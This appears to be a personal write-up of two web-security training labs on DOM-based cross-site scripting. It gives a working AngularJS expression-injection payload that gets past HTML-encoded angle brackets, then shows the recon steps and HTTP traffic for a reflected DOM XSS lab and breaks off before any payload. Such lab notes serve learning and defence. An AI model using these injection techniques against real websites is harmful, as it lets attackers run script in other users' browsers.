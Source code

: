 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521003051.png)

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
```bash

# This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.

# AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

# To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.

Type into search: 

123456

View source or open developer tools and Ctrl+f search for string "123456"
Note that the search results are within the html body tag called 'np-app'
Type into search:

#{{$on.constructor('alert(1)')()}}

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521210658.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521210905.png)

### Reflected DOM XSS
```bash

# This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

# To solve this lab, create an injection that calls the alert() function.

Type into search:

123456

Go to: HTTP history

GET /search-results?search=123456 HTTP/1.1

Note the response:

{
  "results":[
  ],
  "searchTerm":"123456"}
}

Go to: Target -> js -> searchResults.js
Check the response

```